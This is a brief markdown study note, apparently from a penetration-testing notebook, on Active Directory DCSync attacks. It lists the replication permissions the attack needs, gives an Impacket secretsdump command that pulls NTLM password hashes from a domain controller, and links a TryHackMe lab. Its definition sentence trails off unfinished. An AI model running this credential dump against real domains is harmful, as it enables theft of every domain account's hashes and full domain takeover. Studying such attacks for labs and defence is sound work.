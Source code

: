 # Active Directory DC Sync Attacks

DC-Sync attack is direct attack on the DC from an account with necessary permissions to force the DC to Synchronise itself with another existent or non-existent -  permissions required:
- ReplicatingDirectory Changes
- ReplicatingDirectory Changes All
- Replicating Directory Changes in Filtered Set

With [[Impacket-Cheatsheet]]
```bash
secretsdump -just-dc $domain/$user@$DC-ip
# For just ntlms 
-just-dc-ntlm 
```

[DC-Sync](https://tryhackme.com/room/credharvesting)